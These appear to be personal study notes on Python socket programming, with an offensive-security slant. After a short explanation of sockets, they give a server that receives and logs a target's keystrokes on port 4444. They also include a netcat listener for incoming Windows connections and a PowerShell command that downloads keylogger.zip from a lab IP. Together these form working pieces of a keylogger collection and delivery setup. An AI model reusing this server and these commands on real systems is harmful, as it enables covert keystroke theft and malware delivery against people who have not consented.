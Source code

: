 python
Socket programming is a way to enable communication between two devices over a network. Allows devices send and receive data through a connection, such devices we refer to as **sockets**. These sockets can communicate using different protocols, but most often TCP or UDP.

Usually used in the context of: **client-server**, still its possible to use socket programming for client to client, and in situations with multiple clients and servers.  


**Socket properties:**
- IP address 
- Port number. 
- Listen for incoming connections 
- Communicate (Read and write)
- Can be open/closed
- Low-level & flexible 

**Usage:**
- Custom network protocols, real time applications 
- Scenarios requiring fine-grind control over data transmission. 
- Good for transferring files with build in commands for file operations. 


( Client needs the servers IP / Port for it to connect to the server. ) 

Setting up a basic server socket in python:
- It listens for incoming connections. 
- Read keystrokes from target.
- Logs keystrokes

````python 

import socket

def start_server():
    server_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    server_socket.bind(("0.0.0.0", 4444))
    server_socket.listen(1)
    print("Server listening on port 4444")

    conn, addr = server_socket.accept()
    print(f"Connection from {addr}")

    with open("received_keystrokes.txt", "a") as file:
        while True:
            data = conn.recv(1024).decode("utf-8")
            if not data:
                break
            print(f"Received: {data}")
            file.write(data)
            file.flush()

    conn.close()
    server_socket.close()

if __name__ == "__main__":
    start_server()
````

**Communication not over LAN:**
- Port Forwarding:
- Dynamic DNS:
- Firewalls:


Server socket:
````python
import socket
# Address family: AF.INET -> IPv4

# Socket type: SOCK_STREAM -> (TCP) Sequenced, reliable, two-way connection-based byte streams

# Creates a new socket object

server_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

# Network interface: '0.0.0.0' -> All network interfaces the device uses

# Port: 54 000 within each network interface

# Spesify network interface and which port we want to listen from.

server_socket.bind(('0.0.0.0', 54000))

# Number of connections the server can handle at once

server_socket.listen(5)

print("Server listening on port 54000")

# Running server and waiting for a connection.

while True:

client_socket, client_addr = server_socket.accept()

print(f"Connection from {client_addr}")

# Listen for data from client.

while True:

data = client_socket.recv(1024)

if not data:

print("No data received.")

break

print(f"Received data: {data.decode('utf.8')}")

#TODO: Save data to file.
# Breaking for inner loop -> close the connection to that client

client_socket.close()
````


Listening for incoming calls from windows on Linux:
```
nc -lvnp 8081
```

Transfere file via HTTP using powershell:
``` PS1

powershell -Command "Invoke-WebRequest -Uri http://192.168.56.101:8000/keylogger.zip -Outfile keylogger.zip

```